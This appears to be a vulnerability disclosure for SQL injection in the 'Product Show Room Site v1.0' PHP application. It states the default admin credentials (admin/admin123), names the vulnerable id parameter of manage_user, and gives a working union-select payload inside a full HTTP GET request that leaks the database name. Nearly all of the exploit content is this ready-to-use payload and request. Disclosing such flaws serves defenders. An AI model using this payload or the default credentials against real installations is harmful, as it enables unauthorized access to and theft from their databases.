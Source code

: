# Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/?page=user/manage_user&id=

Vulnerability location: /psrs/admin/?page=user/manage_user&id=, id

Current database name: hsrs_db ,length is 7

[+] Payload: /psrs/admin/?page=user/manage_user&id=-7%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ // Leak place ---> id

```sql
GET /psrs/admin/?page=user/manage_user&id=-7%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171826900-68d58736-8d48-499e-807e-bea9cd641cc7.png)

![image](https://user-images.githubusercontent.com/54017627/171827106-ef6d8840-ed6b-4788-a0a8-d5913e902168.png)
